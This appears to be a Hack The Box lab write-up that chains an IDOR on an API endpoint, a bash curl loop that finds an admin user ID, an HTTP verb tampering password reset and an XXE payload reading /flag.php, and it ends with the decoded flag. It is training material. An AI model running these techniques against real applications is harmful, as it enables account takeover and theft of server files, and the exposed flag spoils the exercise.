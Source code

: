 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217220316.png)

Let's visit the web application:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217220549.png)

We can authenticate now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230238.png)

Now we get something different, let's adjust the parameters:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230553.png)

Let's create a simple test event:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230641.png)

Now, check the request:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250217234432.png)

